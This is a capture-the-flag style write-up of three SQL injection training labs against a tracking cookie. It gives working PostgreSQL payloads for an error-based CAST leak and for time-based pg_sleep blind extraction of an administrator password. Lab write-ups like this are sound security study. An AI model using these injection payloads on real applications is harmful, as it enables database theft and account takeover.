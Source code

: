 ```
author: 0xUu
date: July 7th, 2024
topic: Blind SQLi
```


# Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution

the script is found on `blind1.py`


# Lab: Visible error-based SQL injection

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

## Solution

1. Figure the type of db we're dealing with

```
KTfYtcR96JX6ia1u' || CAST((SELECT version()) as int)--
```

-> It's a PostgreSQL database

Now, the idea is to trigger an error whenever you run a query, you can do that using
concatenation with CAST(... as int). Note that we're met with character limit in our query.

Knowing that user 'administrator' exists in the first row of users table (simple select with limit 1) confirms that.

We can retrieve the password using

```
' || CAST((SELECT password FROM users LIMIT 1) as int)--
```

password in this case is: `jt5igk104tmx6sucbl86`


# Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution

1. Determine the type of the db

```
Qdsgj7juZVDHmmYv'; SELECT pg_sleep(10)--
```

-> It's a PostgreSQL database

2. Check if 'administrator' exists

```
Qdsgj7juZVDHmmYv'; SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username='administrator')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

-> Indeed we have a user with username='administrator' (COUNT returns int)

3. Figuring the length of the password

```
Qdsgj7juZVDHmmYv'; SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username='administrator' AND LENGTH(Password) = 20)=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

-> the length is: 20 characters

4. Figuring out the actual password

```
Qdsgj7juZVDHmmYv'; SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username='administrator' AND SUBSTRING(Password, 1, 1) > 'a')=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

Note: the latter was just a test case, we'll use python to do this, cuz attacks are throttled in burpsuite community edition
(I AM BROKE)

-> The script is found at `blind4.py`, and password is: ``
